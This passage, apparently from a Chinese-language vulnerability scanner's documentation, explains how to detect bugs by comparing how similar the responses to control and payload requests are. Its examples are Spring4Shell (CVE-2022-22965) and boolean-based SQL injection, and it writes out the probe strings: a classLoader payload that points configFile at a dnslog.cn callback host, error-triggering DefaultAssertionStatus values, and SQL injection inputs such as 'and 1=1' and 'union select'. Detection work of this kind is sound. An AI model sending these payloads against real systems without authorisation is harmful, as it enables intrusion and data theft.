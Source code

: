 3. 在 >=0.7 的时候，我们认为他们是 “基本相似”，一般在宽松的场景下可以认为 “True”
4. <span style={{background:'#fff67acc'}}>其余情况，我们可以认为 “不相同”</span>

#### 如何利用布尔化算法进行判别？
##### 案例：CVE-2022-22965 (Spring-Core-RCE JDK9+)检测的探讨：
目前检测主要有三种方法：

1.  <span style={{background:'#fff67acc'}}>写文件 + 连接 WebShell 的 “利用” 法</span>
2. <span style={{background:'#fff67acc'}}>报错法 </span>：

    1.  `class.module.classLoader.URLs[0]` 类型报错
    2.  `class.module.class.module.class.module ...*` 抽象类加载报错
    3.  `class.module.classLoader.DefaultAssertionStatus` 类型报错
3. <span style={{background:'#fff67acc'}}>DNS 反连检测</span>：    

    `class.module.classLoader.resources.context.configFile=http://*.dnslog.cn/test&class.module.classLoader.resources.context.configFile.content.aaa=xxx`

>从表面上看，第一种会对业务产生影响不太推荐使用，第三种对基础设施略有要求，我们最理想的检测方案是 “报错法” 进行检测。
>
>为什么是报错，而不是 “特征字符串” 回显？  
>
>这是因为执行成功我们并不能看到 “特征” 是啥，也无法知道回显的位置，回显的结果特征也并不够明显，不是我们确定的计算结果，而是 “报错结果”  
>
>然而报错是可以被 Spring 框架全局拦截重定向到主页的。基于这种考虑实际上报错法的漏报还是挺多，甚至在构造不合理的时候，误报也会存在。

但是如果我们认为目标一定会返回报错结果，基于这个考虑，我们如何利用布尔化来判断漏洞是否存在？其实道理很简单，<span style={{background:'#fff67acc'}}>构造实验组和对照组，使用控制变量法。</span>

1. 正常的请求记录为 Positive 请求(P1)
2. 为了确定稳定，正常请求应该有多个(P2/P3)
3. 打出 Payload 请求设置为 A

<span style={{background:'#fff67acc'}}>那么如果，我们可以认为 P1 / P2 / P3 互相都相同 （相似），当发送 Payload 后对应的 A 请求与其他（P1/P2/P3）都不应该相同（相似）。我们可以因此区分出一个 “不同的 Payload”。</span>  

更具体的来说，我们以`class.module.classLoader.DefaultAssertionStatus` 来举例，我们需要发送三个请求：
1. P1: `class.module.classLoader.DefaultAssertionStatus=True`
2. P2: `class.module.classLoader.DefaultAssertionStatus=False`
3. A: `class.module.classLoader.DefaultAssertionStatus=123`

P1 / P2 都是不应该有错误的请求，A 是应该报错的请求。那么如果有漏洞的话，应该符合我们实验的流程。
P1 和 P2 极其相似，A 与 P1 和 P2 都不相似。

当然，P1 / P2 如果可以还能增加另一个对照组，原请求啥也不做的 “结果”（P3）以更好区分。

##### 案例二：设计一个布尔类型的 SQL 检测方案
当我们明白基础的布尔化检测原理之后，重新看一个经典的案例：Boolean-Based SQL Injection，我们以 id=1 为触发点来设计实验方案：

1. `id=1` 为 P1
2. `id=1 and 1=1/**/`  为 P2
3. `id=1 and 2=1` 为 Negative (N1)

那么最基础的，我们可以认为 

1. P1 与 P2 相同/相似
2. P1 与 N1 不相同
3. P2 与 N1 不相同。

经历这三个判别，可以初步进行筛选出 N1 是 “有问题的”。那么继续更深层的验证可以扩充 Positive 组，我们可以测试 `id=1 and 1=2023-2020-1-1` 来判断等式，这也是为了能 “更好判别” 的其他构造。

当然，我们粗筛之后，能获得 “如何突破边界” 等问题，可以把上述结果转换成更简单的办法，比如 `union select 1,2,3,4,5... --%20` 这类可控回显来更精准检测。

#### 小总结
实际上，我们上面设计的 “实验方案” 并不是完全零误报零漏报的，大家在实现的时候，需要充分考虑剪枝算法的情况以及网络因素导致的 “不稳定” 的问题。

###  多协议出网反连检测漏洞：
目前多协议出网检测主要也分为三大协议：
